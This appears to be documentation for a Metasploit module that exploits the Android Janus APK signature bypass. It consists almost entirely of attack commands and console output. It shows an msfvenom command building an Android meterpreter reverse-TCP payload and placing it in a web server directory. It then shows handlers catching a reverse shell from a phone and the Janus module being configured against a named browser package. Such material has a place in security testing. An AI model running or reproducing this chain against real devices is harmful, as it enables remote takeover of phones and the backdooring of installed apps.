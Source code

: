 Original payload was generated as such:

```
./msfvenom -p android/meterpreter_reverse_tcp LHOST=1.1.1.1 LPORT=9999 -o /var/www/html/android.apk
```

```
resource (janus.rb)> use exploit/multi/handler
resource (janus.rb)> set payload android/meterpreter_reverse_tcp
payload => android/meterpreter_reverse_tcp
resource (janus.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (janus.rb)> set lport 9999
lport => 9999
resource (janus.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:9999 
[*] Meterpreter session 1 opened (1.1.1.1:9999 -> 2.2.2.2:43753) at 2019-11-05 20:08:53 -0500
WARNING: Local file /root/metasploit-framework/data/meterpreter/ext_server_stdapi.jar is being used

meterpreter > getuid
Server username: u0_a89
meterpreter > pwd
/data/user/0/com.metasploit.stage/files
meterpreter > sysinfo
Computer    : localhost
OS          : Android 6.0.1 - Linux 3.10.49-gc5a5f6b-00560-gb1fe534 (armv7l)
Meterpreter : dalvik/android
meterpreter > background
[*] Backgrounding session 1...
```

Start the payload handler to catch the new callback

```
resource (janus.rb)> set payload android/meterpreter/reverse_tcp
payload => android/meterpreter/reverse_tcp
resource (janus.rb)> set lport 4444
lport => 4444
resource (janus.rb)> run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
```

Exploit

```
resource (janus.rb)> use janus

[*] Started reverse TCP handler on 1.1.1.1:4444 

Matching Modules
================

   #  Name                         Disclosure Date  Rank    Check  Description
   -  ----                         ---------------  ----    -----  -----------
   0  exploit/android/local/janus  2017-07-31       manual  Yes    Android Janus APK Signature bypass


[*] Using exploit/android/local/janus
resource (janus.rb)> set session 1
session => 1
resource (janus.rb)> set package com.ume.browser.northamerica
package => com.ume.browser.northamerica
resource (janus.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (janus.rb)> set lport 4444
lport => 4444
```